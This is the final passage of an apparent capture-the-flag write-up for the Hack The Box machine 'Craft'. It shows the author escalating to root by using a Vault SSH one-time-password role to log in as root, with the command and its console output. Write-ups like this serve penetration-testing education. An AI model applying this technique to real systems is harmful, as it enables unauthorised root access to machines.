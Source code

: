   is clear is needed to execute something like `vault ssh -mode=otp -role=my-role user@1.2.3.4`, so we do it:

  ```console
gilfoyle@craft:~$  vault ssh -mode=otp -role=root_otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 6290d45c-541f-fb96-32c7-3e5a8aa4a256


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan  4 00:46:56 2020 from 127.0.0.1
root@craft:~# wc -c root.txt
33 root.txt
root@craft:~# 
```

And we own root!!
Again I enjoyed quite a lot doing this box a few hours it was going to be retired, and again thanks again @Frundrod and [@Fugl](https://www.hackthebox.eu/profile/103596) for point me in the right direction.

Thanks a lot for reading, andd until the next write-up.
